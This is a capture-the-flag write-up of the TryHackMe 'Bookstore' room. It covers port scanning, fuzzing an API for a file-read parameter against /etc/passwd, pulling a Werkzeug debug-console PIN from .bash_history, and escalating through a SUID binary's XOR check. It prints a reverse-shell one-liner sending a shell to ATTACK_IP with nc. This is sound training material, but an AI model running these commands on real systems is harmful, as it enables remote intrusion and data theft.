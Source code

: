 ```yaml
---
title: "Bookstore TryHackMe"
layout: post
date: 2023-08-06 19:00
tag: 
- TryHackMe
- Pentesting
- Bookstore
- Fuzzing
- Web
- Meduim
- API
image: https://tryhackme-images.s3.amazonaws.com/room-icons/aba19a5cfea503b401f5550cb1004e20.jpeg
headerImage: true
writeups: true
hidden: true # don't count this post in blog pagination
description: "A meduim TryHackMe box, with basic web enumeration and API fuzzing."
category: project
author: johndoe
externalLink: false
star: false
---
```


# Overview

A meduim TryHackMe box, with basic web enumeration and API fuzzing.

---

# Namp

```bash
nmap -A -T4 10.10.255.130   
Starting Nmap 7.91 ( https://nmap.org ) at 2023-08-06 13:58 +01
Nmap scan report for 10.10.255.130
Host is up (0.16s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 44:0e:60:ab:1e:86:5b:44:28:51:db:3f:9b:12:21:77 (RSA)
|   256 59:2f:70:76:9f:65:ab:dc:0c:7d:c1:a2:a3:4d:e6:40 (ECDSA)
|_  256 10:9f:0b:dd:d6:4d:c7:7a:3d:ff:52:42:1d:29:6e:ba (ED25519)
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Book Store
5000/tcp open  http    Werkzeug httpd 0.14.1 (Python 3.6.9)
| http-robots.txt: 1 disallowed entry 
|_/api </p> 
|_http-title: Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

After accessing the web page in port 80 I found :

![Alt text](<../../../assets/images/THMPics/Pasted image 20230806140146.png>)

And port 5000 contains the following page :

![Alt text](<../../../assets/images/THMPics/Pasted image 20230806140127.png>)

![Alt text](<../../../assets/images/THMPics/Pasted image 20230806140218.png>)

The /api endpoint found in robots.txt gives us information how to use the request to the api :

![Alt text](<../../../assets/images/THMPics/Pasted image 20230806140255.png>)

In the source code I found an interesting hint for LFI :

![Alt text](<../../../assets/images/THMPics/Pasted image 20230806142124.png>)

Also in the source code of main.js I found another hint, so it may be an indication that there is a version 1 :

![Alt text](<../../../assets/images/THMPics/Pasted image 20230806141934.png>)

![Alt text](<../../../assets/images/THMPics/Pasted image 20230806142329.png>)

So there is actually a v1! Now, let’s fuzz the API (v1) to find a possible parameter that would allow to read arbitrary files :

```bash
wfuzz -w /usr/share/wordlists/dirb/common.txt --hc=404 "http://10.10.255.130:5000/api/v1/resources/books?FUZZ=/etc/passwd"
```

![Alt text](<../../../assets/images/THMPics/Pasted image 20230806143110.png>)

Found the vulnerable parameter! Now let's read /etc/passwd file :

![Alt text](<../../../assets/images/THMPics/Pasted image 20230806143244.png>)

Referring to the hint found let's read the user flag :

![Alt text](<../../../assets/images/THMPics/Pasted image 20230806141934.png>)

![Alt text](<../../../assets/images/THMPics/Pasted image 20230806143609.png>)

Using **Gobuster** we can see the */console* endpoint :

![Alt text](<../../../assets/images/THMPics/Pasted image 20230806143805.png>)

Now let's read the .bash_history file as mentioned in the hint to find the PIN for /console :

![Alt text](<../../../assets/images/THMPics/Pasted image 20230806143531.png>)

PIN : 123-321-135

![Alt text](<../../../assets/images/THMPics/Pasted image 20230806143932.png>)

The bellow blog from **HackTricks** show us how to exploit that :

[https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/werkzeug](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/werkzeug)

Now let's get a revshell :

```bash
__import__('os').popen('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ATTACK_IP 9999 >/tmp/f').read();
```

![Alt text](<../../../assets/images/THMPics/Pasted image 20230806144510.png>)

![Alt text](<../../../assets/images/THMPics/Pasted image 20230806144343.png>)

I am in as sid user!

# PE

I found an interesting file with the SUID bit set :

![Alt text](<../../../assets/images/THMPics/Pasted image 20230806145653.png>)

I downloaded a copy of the binary and analyzed it in Ghidra. Below is the main() function :

![Alt text](<../../../assets/images/THMPics/Pasted image 20230806145620.png>)

The program prompts for a number (local_1c), XORs it with `0x1116` and `0x5db3` (local_18) and compares the result with `0x5dcd21f4`. If they match, a root shell will be spawned.

Let’s do the reverse operation to get the correct value that will give us the ability to spawn a root shell:

![Alt text](<../../../assets/images/THMPics/Pasted image 20230806150722.png>)

# Root flag

<p>root@bookstore:~# id</p>
uid=0(root) gid=1000(sid) groups=1000(sid)
<p>root@bookstore:/root# cat /root/root.txt</p>
e29b05fba5b2a7e69c24a450893158e3

<br/>

# MACHINE PWNED!

<br/>

And that was it, I hope you enjoyed the writeup. If you have any questions you can [Contact Me](https://www.linkedin.com/in/hichamouardi).

<p>Happy Hacking!</p>